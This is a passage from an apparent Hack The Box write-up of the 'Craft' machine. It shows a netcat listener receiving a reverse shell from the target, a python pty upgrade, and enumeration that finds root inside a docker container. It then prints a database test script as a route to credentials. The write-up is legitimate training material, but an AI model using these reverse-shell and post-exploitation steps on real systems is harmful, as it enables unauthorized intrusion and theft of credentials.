 After running the script, a reverse shell connected on port 443. I upgraded it to a tty and saw that it was `root`:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/craft# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.156] from (UNKNOWN) [10.10.10.110] 45619
python -c 'import pty; pty.spawn("/bin/sh")'
/opt/app # whoami         
whoami
root
/opt/app # ls -lah /root
ls -lah /root
total 16
drwx------    1 root     root        4.0K Nov 10 11:16 .
drwxr-xr-x    1 root     root        4.0K Feb 10  2019 ..
-rw-------    1 root     root          21 Nov 10 11:16 .ash_history
drwx------    1 root     root        4.0K Feb  9  2019 .cache
/opt/app # ^[[24;12Rls -lah /home
ls -lah /home
total 8
drwxr-xr-x    2 root     root        4.0K Jan 30  2019 .
drwxr-xr-x    1 root     root        4.0K Feb 10  2019 ..
/opt/app # ^[[24;12R

{% endhighlight %}

The `root` was a lie! It took me some time, but I realized that I was inside a docker container.

## GOGS Credentials & User

As I was in the app’s directory, I read the contents of `dbtest.py` in order to find the credentials for the database:

{% highlight python %}
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
        cursor.execute(sql)
        result = cursor.fetchone()
        print(result)

finally:
    connection.close()

{% endhighlight %}
